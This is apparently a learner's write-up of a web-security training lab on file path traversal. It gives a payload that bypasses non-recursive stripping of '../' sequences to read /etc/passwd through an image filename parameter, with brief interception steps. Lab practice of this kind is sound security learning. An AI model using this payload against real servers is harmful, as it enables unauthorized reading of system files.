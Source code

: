 # Lab 03

## Lab: File path traversal, traversal sequences stripped non-recursively

**Vulnerable Path:** ....//....//....//etc/passwd

**Step-by-step:**
1. Intercept product
2. FORWARD until get vulnerable parameter (/image?filename=.jpg)
3. Replace .jpg with ....//....//....//etc/passwd

![b2ffcd09e8ca4efba9e3c34a35876fb5](https://user-images.githubusercontent.com/44063862/106375445-ff219f00-63c6-11eb-94ab-bf98139ca599.png)
